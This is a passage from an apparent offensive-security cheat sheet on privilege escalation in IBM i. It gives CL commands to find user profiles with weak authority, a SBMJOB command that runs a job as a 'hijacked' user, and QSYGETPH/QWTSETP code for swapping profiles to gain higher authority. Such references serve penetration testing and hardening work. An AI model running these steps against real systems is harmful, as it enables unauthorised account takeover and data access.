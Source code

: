     ```ps1
    PRTPUBAUT OBJTYPE(*USRPRF)
    ```

* Print Private Authority

    ```ps1
    PRTPVTAUT OBJTYPE(*USRPRF)
    ```

Look for `*USE` rights or better(e.g. `*CHANGE`, `*ALL`) to someone else's User Profile.

This `SBMJOB` command will submit a batch job to run under the `HIJACKED_USER` user profile, and will print out the records in the `FILE_OF_HIJACKED_USER` file where the `HIJACKED_USER` User Profile have access.

> The Submit Job (SBMJOB) command allows a job that is running to submit another job to a job queue to be run later as a batch job. Only one element of request data can be placed on the new job's message queue. - [IBM/SBMJOB](https://www.ibm.com/docs/en/i/7.4?topic=ssw_ibm_i_74/cl/sbmjob.html)

```ps1
SBMJOB CMD(CPYF FROMFILE(FILE_OF_HIJACKED_USER) TOFILE(*PRINT)) USER(HIJACKED_USER)
```

### Hijack Profile - Profile Swapping

Used to change the thread user profile running the application in order to obtain elevated authority.

* Check the list of profiles
* Grab a profile handle: [`QSYGETPH`](https://www.ibm.com/docs/api/v1/content/ssw_ibm_i_75/apis/QSYGETPH.htm)
* Set profile based on the token generated by QSYGETPH: [`QWTSETP`](https://www.ibm.com/docs/api/v1/content/ssw_ibm_i_75/apis/QWTSETP.htm)
* Repeat until you have obtained the highest access level
* Release profile handle: [`QSYRLSPH`](https://www.ibm.com/docs/api/v1/content/ssw_ibm_i_75/apis/QSYRLSPH.htm)

```c
/* Call QSYGETPH to get a profile handle for a user. */
/* NOTE: Change USERPROFILE to the user who you want to swap to. */
CALL QSYS/QSYGETPH ('USERPROFILE' '*NOPWDCHK' &HNDL)
/* Call QWTSETP to swap to the profile. */
CALL QSYS/QWTSETP &HNDL
```

| Value        | Description             |
| ------------ | ----------------------- |
| `*NOPWD`     | The user requesting the profile handle must have `*USE` authority to the user profile. A profile handle does not get created for a disabled user profile. A profile handle does not get created for a user profile with an expired password. |
| `*NOPWDCHK`  | The user requesting the profile handle must have `*USE` authority to the user profile. If the profile is disabled, the user requesting the profile handle must have `*ALLOBJ` and `*SECADM` special authorities to get a handle. If the password is expired, the user requesting the profile handle must have `*ALLOBJ` and `*SECADM` special authorities to get a handle. |
| `*NOPWDSTS`  | The user requesting the profile handle must have *USE authority to the user profile. A profile handle does not get created for a disabled user profile. If the password is expired, the user requesting the profile handle must have `*ALLOBJ` and `*SECADM` special authorities to get a handle. |

You cannot obtain a profile handle for the following system-supplied user profiles:

```ps1
QAUTPROF  QDLFM       QMSF      QSNADS      QTSTRQS
QCLUMGT   QDOC        QNETSPLF  QSPL
QCOLSRV   QDSNX       QNFSANON  QSPLJOB
QDBSHR    QFNC        QNTP      QSRVAGT
QDBSHRDO  QGATE       QPEX      QSYS
QDFTOWN   QLPAUTO     QPM400    QTCP 
QDIRSRV   QLPINSTALL  QRJE      QTFTP 
``` 
